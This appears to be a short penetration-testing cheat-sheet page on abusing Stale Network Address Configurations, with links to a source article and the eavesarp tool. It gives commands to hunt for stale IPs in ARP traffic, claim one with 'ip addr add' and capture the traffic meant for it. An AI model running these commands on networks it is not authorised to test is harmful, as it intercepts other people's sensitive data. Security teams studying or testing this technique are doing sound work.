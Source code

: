 ```yaml
---
description: Stale Network Address Configuration
---
```


# SNACs Abuse

* [https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)
* [https://github.com/arch4ngel/eavesarp](https://github.com/arch4ngel/eavesarp)

Actively analyze ARP traffic and hunt for SNACs (Stale Network Address Configurations):

```
$ sudo python3 eavesarp.py capture -i eth0 -ar -dr [--blacklist 192.168.1.11]
```

If a SNAC if found (can be detected, for example, when a host has moved from one IP to another and its DNS A record not matching its DNS PTR record anymore) so that some application in the network is still trying to send sensitive data to the *stale* IP address (because it may simply be hard-coded in the app), an adversary can set an alias for their interface pretending to be that host with the *stale* IP and collect all the traffic intended for it:

```
 # Check again with tcpdump
$ sudo tcpdump -nvv -i eth0 host <STALE_IP> and arp
 # Abuse it!
$ sudo ip addr add <STALE_IP>/24 dev eth0
$ sudo tcpdump -nvv -i eth0 host <STALE_IP>
```
